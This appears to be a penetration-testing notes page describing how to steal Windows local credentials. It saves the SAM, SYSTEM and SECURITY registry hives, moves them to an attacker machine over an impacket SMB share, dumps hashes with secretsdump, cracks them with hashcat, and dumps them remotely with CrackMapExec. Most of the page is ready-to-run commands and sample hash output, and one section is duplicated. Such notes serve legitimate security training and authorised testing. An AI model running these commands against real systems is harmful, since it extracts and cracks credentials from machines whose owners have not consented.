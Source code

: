 ```yaml
---
title: Attacking SAM
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
```

# Attacking SAM

[See Windows credentials storage](windows-credentials-storage.md).

## Dumping SAM Locally

### 1. Copying SAM Registry Hives

There are three registry hives that we can copy if we have local admin access on the target; each will have a specific purpose when we get to dumping and cracking the hashes. 

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

Launching CMD as an admin will allow us to run reg.exe to save copies of the registry hives.

```cmd-session
reg.exe save hklm\sam C:\sam.save

reg.exe save hklm\system C:\system.save

reg.exe save hklm\security C:\security.save
```

Transfer the registry hives to our attacker machine, for instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
move sam.save \\$ipAttacker\CompData
move system.save \\$ipAttacker\CompData
move security.save \\$ipAttacker\CompData
```

### 2. Dumping Hashes with Impacket's secretsdump.py

```bash
locate secretsdump 
```

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Secretsdump dumps the local SAM hashes and would've 
also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. 

The first step secretsdump executes is targeting the system bootkey before proceeding to dump the LOCAL SAM hashes. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
(uid:rid:lmhash:nthash)
```

Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS. Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords.


### 3. Cracking Hashes with Hashcat

[See hashcat](hashcat.md):

```bash
# Adding nthashes to a .txt File
# Copy paste them in hashestocrack.txt

# Hashcat them
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
# -m 1000: select module for NT hashes
```


## Dumping SAM Remotely

#### With CrackMapExec

With access to credentials with local admin privileges, it is also possible for us to target LSA Secrets over the network. 

[Cheat sheet of CrackMapExec](crackmapexec.md).

```bash
crackmapexec smb $ip --local-auth -u <username> -p <password> --sam

crackmapexec smb $ip --local-auth -u <username> -p <password> --lsa
```


## Extracting Credential from SAM

### With secretsdump.py

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

Secretsdump dumps the local SAM hashes and would've 
also dumped the cached domain logon information if the target was domain-joined and had cached credentials present in hklm\security. 

The first step secretsdump executes is targeting the system bootkey before proceeding to dump the LOCAL SAM hashes. It cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database.

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
(uid:rid:lmhash:nthash)
```

Most modern Windows operating systems store the password as an NT hash. Operating systems older than Windows Vista & Windows Server 2008 store passwords as an LM hash, so we may only benefit from cracking those if our target is an older Windows OS. Knowing this, we can copy the NT hashes associated with each user account into a text file and start cracking passwords.